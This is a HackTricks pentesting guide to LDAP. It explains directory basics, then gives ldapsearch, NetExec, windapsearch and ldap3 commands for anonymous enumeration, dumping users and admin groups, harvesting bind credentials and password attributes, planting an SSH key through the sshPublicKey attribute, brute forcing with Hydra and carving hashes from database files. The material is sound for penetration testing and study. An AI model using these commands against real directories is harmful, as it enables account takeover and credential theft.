


# 389, 636, 3268, 3269 - Pentesting LDAP

{{#include ../banners/hacktricks-training.md}}

**LDAP** (Lightweight Directory Access Protocol) provides access to directory services: clients can search, read, add, modify, and delete directory entries when access controls permit it. Common deployments store identities, groups, devices, and service configuration. LDAP was designed as a lighter-weight way to access directory models derived from X.500.<sup>[[6]](#references)[[7]](#references)</sup>

An LDAP server is also called a Directory System Agent (DSA). A directory can be partitioned into naming contexts and distributed or replicated across DSAs, but not every server necessarily contains a synchronized copy of the entire tree. A DSA may return referrals when another server holds the requested data.<sup>[[6]](#references)[[7]](#references)</sup>

Entries form a **Directory Information Tree (DIT)** and are identified by Distinguished Names (DNs). A deployment may use DNS-style domain components (`dc=example,dc=com`), country/organization components, organizational units, or another schema-appropriate hierarchy; there is no requirement that every tree follow a country → organization pattern.<sup>[[6]](#references)</sup>

**Common ports:** TCP 389 for LDAP (optionally upgraded with StartTLS) and TCP 636 for LDAP over TLS (`ldaps`). On an Active Directory domain controller that is also a Global Catalog server, TCP 3268 provides Global Catalog LDAP and TCP 3269 provides Global Catalog LDAP over TLS.<sup>[[8]](#references)</sup>

```
PORT    STATE SERVICE REASON
389/tcp open  ldap    syn-ack
636/tcp open  tcpwrapped
```

### LDAP Data Interchange Format

LDIF (LDAP Data Interchange Format) defines the directory content as a set of records. It can also represent update requests (Add, Modify, Delete, Rename).

```bash
dn: dc=local
dc: local
objectClass: dcObject

dn: dc=moneycorp,dc=local
dc: moneycorp
objectClass: dcObject
objectClass: organization

dn: ou=it,dc=moneycorp,dc=local
objectClass: organizationalUnit
ou: it

dn: ou=marketing,dc=moneycorp,dc=local
objectClass: organizationalUnit
ou: marketing

dn: uid=pepe,ou=it,dc=moneycorp,dc=local
objectClass: inetOrgPerson
cn: Pepe Example
sn: Example
givenName: Pepe
uid: pepe
mail: pepe@hacktricks.xyz
telephoneNumber: 23627387495
```

- Lines 1-3 define the top level domain local
- Lines 5-8 define the first level domain moneycorp (moneycorp.local)
- Lines 10-16 define two organizational units: `it` and `marketing`.
- The final record creates a person entry and assigns schema-valid attributes.

## Write data

Writable attributes can have security impact beyond the directory itself. For example, if a host is explicitly configured to retrieve SSH authorized keys from LDAP and you can replace a target's `sshPublicKey` attribute, you may be able to authenticate as that user without their password. Confirm the SSH integration and attribute mapping; the mere presence of the attribute does not prove that any host consumes it.<sup>[[1]](#references)</sup>

```bash
# Example from https://www.n00py.io/2020/02/exploiting-ldap-server-null-bind/
>>> import ldap3
>>> server = ldap3.Server('x.x.x.x', port =636, use_ssl = True)
>>> connection = ldap3.Connection(server, 'uid=USER,ou=USERS,dc=DOMAIN,dc=DOMAIN', 'PASSWORD', auto_bind=True)
>>> connection.bind()
True
>>> connection.extend.standard.who_am_i()
u'dn:uid=USER,ou=USERS,dc=DOMAIN,dc=DOMAIN'
>>> connection.modify('uid=USER,ou=USERS,dc=DOMAIN,dc=TLD', {'sshPublicKey': [(ldap3.MODIFY_REPLACE, ['ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDHRMu2et/B5bUyHkSANn2um9/qtmgUTEYmV9cyK1buvrS+K2gEKiZF5pQGjXrT71aNi5VxQS7f+s3uCPzwUzlI2rJWFncueM1AJYaC00senG61PoOjpqlz/EUYUfj6EUVkkfGB3AUL8z9zd2Nnv1kKDBsVz91o/P2GQGaBX9PwlSTiR8OGLHkp2Gqq468QiYZ5txrHf/l356r3dy/oNgZs7OWMTx2Rr5ARoeW5fwgleGPy6CqDN8qxIWntqiL1Oo4ulbts8OxIU9cVsqDsJzPMVPlRgDQesnpdt4cErnZ+Ut5ArMjYXR2igRHLK7atZH/qE717oXoiII3UIvFln2Ivvd8BRCvgpo+98PwN8wwxqV7AWo0hrE6dqRI7NC4yYRMvf7H8MuZQD5yPh2cZIEwhpk7NaHW0YAmR/WpRl4LbT+o884MpvFxIdkN1y1z+35haavzF/TnQ5N898RcKwll7mrvkbnGrknn+IT/v3US19fPJWzl1/pTqmAnkPThJW/k= badguy@evil'])]})
```

## Linux client-side LDAP artifacts

On Linux hosts integrated with LDAP/AD, valuable secrets often live in the **client configuration**, not only on the LDAP server itself.

Common files:

```bash
ls -l /etc/sssd/sssd.conf /etc/nslcd.conf /etc/ldap/ldap.conf /etc/krb5.conf 2>/dev/null
sed -n '1,120p' /etc/sssd/sssd.conf 2>/dev/null
sed -n '1,120p' /etc/nslcd.conf 2>/dev/null
```

High-value keys:

- **`ldap_uri`** and **`ldap_search_base`**: where and what to query
- **`ldap_default_bind_dn`** and **`ldap_default_authtok`**: reusable bind credentials
- **`id_provider`** / **`auth_provider`**: tells you whether SSSD is using LDAP, Kerberos, or both

Useful follow-up:

```bash
grep -nE '^(ldap_uri|ldap_search_base|ldap_default_bind_dn|ldap_default_authtok|id_provider|auth_provider)\\s*=' \
  /etc/sssd/sssd.conf /etc/nslcd.conf 2>/dev/null

ldapsearch -x -H ldap://<target> -D "<bind-dn>" -w '<password>' -b "<base-dn>"
```

What to look for:

- **world-readable `sssd.conf` / `nslcd.conf`**
- cleartext bind credentials
- directory-backed SSH or sudo integrations that turn a readable config into real authz impact

## Cleartext credentials and TLS downgrade risks

An LDAP **simple bind** over an unprotected connection exposes the bind DN and password to an on-path observer. Not every authentication mechanism is plaintext: SASL mechanisms may provide their own integrity/confidentiality, and StartTLS or `ldaps://` can protect the session.<sup>[[9]](#references)</sup>

An on-path attacker may be able to suppress or interfere with StartTLS when a client treats TLS as optional and falls back to an unprotected simple bind. A correctly configured client must require TLS before sending credentials and fail closed if negotiation fails.

For `ldaps://` or successfully negotiated StartTLS, interception additionally requires the client to accept an untrusted or name-mismatched certificate, or compromise of a trusted CA/key. LDAP clients are often unattended services, so certificate validation policy—not an interactive user prompt—is the relevant control.<sup>[[10]](#references)</sup>

## Anonymous Access

### Bypass TLS SNI check

In the cited environment, resolving an attacker-chosen hostname to the LDAP service changed how the TLS connection was accepted and made an anonymously readable directory reachable. Treat this as a deployment-specific hostname/SNI and certificate-routing check, not a generic LDAP authentication bypass:<sup>[[2]](#references)</sup>

```bash
ldapsearch -H ldaps://company.com:636/ -x -s base -b '' "(objectClass=*)" "*" +
```

### LDAP anonymous binds

An LDAP anonymous bind establishes an unauthenticated authorization state. Active Directory allows limited RootDSE discovery anonymously but, since Windows Server 2003 defaults, generally requires authentication to search directory data. Administrators can deliberately grant broader anonymous access for legacy applications; a mistaken ACL can then expose users, groups, computers, attributes, or policy data.<sup>[[3]](#references)</sup>

### Anonymous LDAP enumeration with NetExec (null bind)

If null/anonymous bind is allowed, you can pull users, groups, and attributes directly via NetExec’s LDAP module without creds.<sup>[[4]](#references)[[5]](#references)</sup> Useful filters:
- (objectClass=*) to inventory objects under a base DN
- (sAMAccountName=*) to harvest user principals

Examples:

```bash
# Enumerate objects from the root DSE (base DN autodetected)
netexec ldap <DC_FQDN> -u '' -p '' --query "(objectClass=*)" ""

# Dump users with key attributes for spraying and targeting
netexec ldap <DC_FQDN> -u '' -p '' --query "(sAMAccountName=*)" ""

# Extract just the sAMAccountName field into a list
netexec ldap <DC_FQDN> -u '' -p '' --query "(sAMAccountName=*)" "" \
  | awk -F': ' '/sAMAccountName:/ {print $2}' | sort -u > users.txt
```

What to look for:
- sAMAccountName, userPrincipalName
- memberOf and OU placement to scope targeted sprays
- pwdLastSet (temporal patterns), userAccountControl flags (disabled, smartcard required, etc.)

Note: When the requested anonymous search is not permitted, an Operations error indicating that a bind is required is common. Other errors can reflect the base DN, filter, signing/channel-binding policy, or server-specific access controls.

## Valid Credentials

If you have valid credentials to login into the LDAP server, you can dump all the information about the Domain Admin using:

[ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)

```bash
pip3 install ldapdomaindump
ldapdomaindump <IP> [-r <IP>] -u '<domain>\<username>' -p '<password>' [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]
```

### [Brute Force](../generic-hacking/brute-force.md#ldap)

## Enumeration

### Automated

These scripts may reveal anonymously accessible metadata such as naming contexts and supported controls:

```bash
nmap -n -sV --script "ldap* and not brute" <IP> #Using anonymous credentials
```

### Python

<details>

<summary>See LDAP enumeration with python</summary>

You can enumerate an LDAP directory with or without credentials using Python: `pip3 install ldap3`.

First try to **connect without** credentials:

```bash
>>> import ldap3
>>> server = ldap3.Server('x.X.x.X', get_info = ldap3.ALL, port =636, use_ssl = True)
>>> connection = ldap3.Connection(server)
>>> connection.bind()
True
>>> server.info
```

If the bind returns `True`, inspect RootDSE metadata such as naming contexts and supported features. A successful anonymous bind does not imply that subtree searches are authorized.

```bash
>>> server.info
DSA info (from DSE):
Supported LDAP versions: 3
Naming contexts:
dc=DOMAIN,dc=DOMAIN
```

Once you have a naming context, this subtree query requests all objects the bound identity is allowed to read:

```bash
>>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*')
True
>> connection.entries
```

Or **dump** the whole ldap:

```bash
>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='userPassword')
True
>>> connection.entries
```

</details>

### windapsearch

[**Windapsearch**](https://github.com/ropnop/windapsearch) is a Python script useful to **enumerate users, groups, and computers from a Windows** domain by utilizing LDAP queries.

```bash
# Get computers
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --computers
# Get groups
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --groups
# Get users
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --users
# Get Domain Admins
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --da
# Get Privileged Users
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --privileged-users
```

### ldapsearch

Check null credentials or if your credentials are valid:

```bash
ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
```

```bash
# CREDENTIALS NOT VALID RESPONSE
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A4C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v3839
```

An error saying that a successful bind must be completed means the requested operation is not permitted in the current authentication state. Possible causes include invalid credentials, an anonymous/omitted bind, or a server policy requiring signing, channel binding, or a different authentication mechanism.

You can extract **everything from a domain** using:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
-x Simple Authentication
-H LDAP Server
-D My User
-w My password
-b Base site, all data from here will be given
```

Extract **users**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
#Example: ldapsearch -x -H ldap://<IP> -D 'MYDOM\john' -w 'johnpassw' -b "CN=Users,DC=mydom,DC=local"
```

Extract **computers**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Computers,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

Extract **my info**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=<MY NAME>,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

Extract **Domain Admins**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

Extract **Domain Users**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Users,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

Extract **Enterprise Admins**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Enterprise Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

Extract **Administrators**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Administrators,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

Extract **Remote Desktop Group**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Remote Desktop Users,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

To see if you have access to any password you can use grep after executing one of the queries:

```bash
<ldapsearchcmd...> | grep -i -A2 -B2 "userpas"
```

Values in password-like attributes may be hashes, application-specific secrets, stale data, or decoys rather than current plaintext passwords.

#### pbis

You can download **pbis** from here: [https://github.com/BeyondTrust/pbis-open/](https://github.com/BeyondTrust/pbis-open/) and it's usually installed in `/opt/pbis`.\
**PBIS Open** is now an archived project, but it may still be installed on older LDAP/AD-integrated hosts. Its utilities can expose useful local integration information:

```bash
#Read keytab file
./klist -k /etc/krb5.keytab

#Get known domains info
./get-status
./lsa get-status

#Get basic metrics
./get-metrics
./lsa get-metrics

#Get users
./enum-users
./lsa enum-users

#Get groups
./enum-groups
./lsa enum-groups

#Get all kind of objects
./enum-objects
./lsa enum-objects

#Get groups of a user
./list-groups-for-user <username>
./lsa list-groups-for-user <username>
#Get groups of each user
./enum-users | grep "Name:" | sed -e "s,\\,\\\\\\,g" | awk '{print $2}' | while read name; do ./list-groups-for-user "$name"; echo -e "========================\n"; done

#Get users of a group
./enum-members --by-name "domain admins"
./lsa enum-members --by-name "domain admins"
#Get users of each group
./enum-groups | grep "Name:" | sed -e "s,\\,\\\\\\,g" | awk '{print $2}' | while read name; do echo "$name"; ./enum-members --by-name "$name"; echo -e "========================\n"; done

#Get description of each user
./adtool -a search-user --name CN="*" --keytab=/etc/krb5.keytab -n <Username> | grep "CN" | while read line; do
    echo "$line";
    ./adtool --keytab=/etc/krb5.keytab -n <username> -a lookup-object --dn="$line" --attr "description";
    echo "======================"
done
```

## Graphical Interface

### Apache Directory

[**Download Apache Directory from here**](https://directory.apache.org/studio/download/download-linux.html). You can find an [example of how to use this tool here](https://www.youtube.com/watch?v=VofMBg2VLnw&t=3840s).

### jxplorer

You can download a graphical interface with LDAP server here: [http://www.jxplorer.org/downloads/users.html](http://www.jxplorer.org/downloads/users.html)

By default it may be installed in `/opt/jxplorer`.

.png>)

### Godap

Godap is an interactive terminal user interface for LDAP that can be used to interact with objects and attributes in AD and other LDAP servers. It is available for Windows, Linux and MacOS and supports simple binds, pass-the-hash, pass-the-ticket & pass-the-cert, along with several other specialized features such as searching/creating/changing/deleting objects, adding/removing users from groups, changing passwords, editing object permissions (DACLs), modifying Active-Directory Integrated DNS (ADIDNS), exporting to JSON files, etc.



You can access it in [https://github.com/Macmod/godap](https://github.com/Macmod/godap). For usage examples and instructions read the [Wiki](https://github.com/Macmod/godap/wiki).

### Ldapx

Ldapx is a flexible LDAP proxy that can be used to inspect & transform LDAP traffic from other tools. It can be used to obfuscate LDAP traffic to attempt to bypass identity protection & LDAP monitoring tools and implements most of the methods presented in the [MaLDAPtive](https://www.youtube.com/watch?v=mKRS5Iyy7Qo) talk.



You can get it from [https://github.com/Macmod/ldapx](https://github.com/Macmod/ldapx).

## Authentication via Kerberos

With a valid Kerberos credential cache and correct service principal/DNS setup, `ldapsearch -Y GSSAPI` uses SASL GSSAPI rather than a simple bind. Whether another invocation uses NTLM depends on the LDAP library and SASL mechanism; `ldapsearch -x` specifically requests simple authentication.

## Post-exploitation

Legacy OpenLDAP deployments may store Berkeley DB files under `/var/lib/ldap`. If the exact backend uses readable `.bdb` files, this historical string-carving approach may recover password-hash records, but modern `mdb` backends and binary database formats require backend-aware offline tooling or a consistent backup:

```bash
cat /var/lib/ldap/*.bdb | grep -i -a -E -o "description.*" | sort | uniq -u
```

Extract only the hash value (for example, the string beginning with `{SSHA}`) and select the matching John the Ripper/Hashcat format. Do not append adjacent LDIF or database fields such as `structuralObjectClass`.

### Configuration Files

- General
  - containers.ldif
  - ldap.cfg
  - ldap.conf
  - ldap.xml
  - ldap-config.xml
  - ldap-realm.xml
  - slapd.conf
- IBM SecureWay V3 server
  - V3.sas.oc
- Microsoft Active Directory server
  - msadClassesAttrs.ldif
- Netscape Directory Server 4
  - nsslapd.sas_at.conf
  - nsslapd.sas_oc.conf
- OpenLDAP directory server
  - slapd.sas_at.conf
  - slapd.sas_oc.conf
- Sun ONE Directory Server 5.1
  - 75sas.ldif

## HackTricks Automatic Commands

```
Protocol_Name: LDAP    #Protocol Abbreviation if there is one.
Port_Number:  389,636     #Comma separated if there is more than one.
Protocol_Description: Lightweight Directory Access Protocol         #Protocol Abbreviation Spelled out

Entry_1:
  Name: Notes
  Description: Notes for LDAP
  Note: |
    The use of LDAP (Lightweight Directory Access Protocol) is mainly for locating various entities such as organizations, individuals, and resources like files and devices within networks, both public and private. It offers a streamlined approach compared to its predecessor, DAP, by having a smaller code footprint.

    https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-ldap.html

Entry_2:
  Name: Banner Grab
  Description: Grab LDAP Banner
  Command: nmap -p 389 --script ldap-search -Pn {IP}

Entry_3:
  Name: LdapSearch
  Description: Base LdapSearch
  Command: ldapsearch -H ldap://{IP} -x

Entry_4:
  Name: LdapSearch Naming Context Dump
  Description: Attempt to get LDAP Naming Context
  Command: ldapsearch -H ldap://{IP} -x -s base namingcontexts

Entry_5:
  Name: LdapSearch Big Dump
  Description: Need Naming Context to do big dump
  Command: ldapsearch -H ldap://{IP} -x -b "{Naming_Context}"

Entry_6:
  Name: Hydra Brute Force
  Description: Need User
  Command: hydra -l {Username} -P {Big_Passwordlist} {IP} ldap2 -V -f

Entry_7:
    Name: Netexec LDAP BloodHound
    Command: nxc ldap <IP> -u <USERNAME> -p <PASSWORD> --bloodhound -c All -d <DOMAIN.LOCAL> --dns-server <IP> --dns-tcp
```

## References

- [1] [Exploiting LDAP Server NULL Bind](https://www.n00py.io/2020/02/exploiting-ldap-server-null-bind/)
- [2] [Exploiting Arbitrary Object Instantiations in PHP without Custom Classes](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)
- [3] [Microsoft: Anonymous LDAP operations to Active Directory are disabled](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/anonymous-ldap-operations-active-directory-disabled)
- [4] [HTB: Baby — Anonymous LDAP → Password Spray → SeBackupPrivilege → Domain Admin](https://0xdf.gitlab.io/2025/09/19/htb-baby.html)
- [5] [NetExec (CME successor)](https://github.com/Pennyw0rth/NetExec)
- [6] [RFC 4512 – LDAP Directory Information Models](https://www.rfc-editor.org/rfc/rfc4512)
- [7] [RFC 4511 – LDAP protocol operations](https://www.rfc-editor.org/rfc/rfc4511)
- [8] [Microsoft Active Directory LDAP and Global Catalog ports](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/1010e59a-cf64-410c-a05c-a3a6c715261a)
- [9] [RFC 4513 – LDAP authentication methods and security mechanisms](https://www.rfc-editor.org/rfc/rfc4513)
- [10] [OpenLDAP 2.6 Administrator's Guide – Using TLS](https://openldap.org/doc/admin26/tls.html)

{{#include ../banners/hacktricks-training.md}}
